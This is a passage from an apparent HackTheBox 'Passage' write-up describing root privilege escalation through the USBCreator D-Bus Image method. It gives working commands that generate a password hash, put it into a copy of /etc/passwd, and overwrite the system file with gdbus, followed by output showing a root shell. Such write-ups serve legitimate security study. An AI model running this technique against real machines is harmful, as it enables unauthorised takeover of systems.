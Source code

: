 I just saw that the article was written by "Nadav" Markus. Nice one Hackthebox. So I go ahead and read the whole thing. Here is what I understand:

Dbus is used for inter-process communication. Meaning to pass data between different processes. There is a dbus service known as USB creator which has a method known as Image. The vulnerability is that this method allows all the users in the sudo group( which we are) to copy and paste files between different locations even if it is present inside the root directory and that too without authentication. 

The lazy way to exploit this would be to just copy the root.txt flag and paste it somewhere you can read it. But that is not my way. I want to fully comprimise this thing. I remember a technique I saw from John Hammond's youtube videos where you can change the password of the root user.

I always wanted to try it and I finally have the chance. Here is how you do it. 

- First print out the contents of the /etc/passwd file.
- copy it and save it inside a file. Next generate the hash of the password you want to set for the root user. Like this:
```
echo 'joske' | openssl passwd -1 -stdin
$1$xY5ZsdUc$rpmwo9tgdY7j8JAPSxmgy/
```
Replace "joske" with any password you want.

- Next copy the hash and put it in place of the "x" that is beside the root user in the passwd file. Like this

Before
```
root:x:0:0:root:/root:/bin/bash
```

After
```
root:$1$xY5ZsdUc$rpmwo9tgdY7j8JAPSxmgy/:0:0:root:/root:/bin/bash
```

- Now that your new passwd file is ready just go ahead and use the command used in the article. This is what I did.

```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/passwd /etc/passwd true
```

The first file is where your new file is located and the second file is the one you want to overwrite.
- Try changing the user to root using the password you chose before.

```
nadav@passage:~$ su root
Password: 
root@passage:/home/nadav#
root@passage:/# whoami
root
root@passage:/# id
uid=0(root) gid=0(root) groups=0(root)
```
